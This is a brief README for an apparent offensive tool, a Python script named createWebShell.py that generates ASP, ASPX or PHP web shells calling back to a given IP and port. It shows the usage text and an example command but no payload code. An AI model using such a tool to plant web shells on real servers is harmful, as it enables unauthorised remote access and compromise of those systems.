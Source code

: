 # BlackWinterSecurity

### The following python script was designed to create webshell for the following lang's:
- ASP
- ASPX
- PHP

### How to use:
To install all of the tools, run the following command:
```sh
$ python createWebShell.py -h
usage: createWebShell.py [-h] -t File_Type -ip ip_Address [-p Port] -o Output_File

Create WebShell for Education Purpose ONLY.

optional arguments:
  -h, --help      show this help message and exit
  -t File_Type    WebShell file type, options: php, asp, aspx
  -ip ip_Address  Enter local host IP Address
  -p Port         Enter local host PORT, Default: 8080
  -o Output_File  Enter the name of the output file

Ex: python createWebShell.py -t php -ip 10.10.10.10 -p 8080 -o myshell.php
```

## Developer
badc0d3 
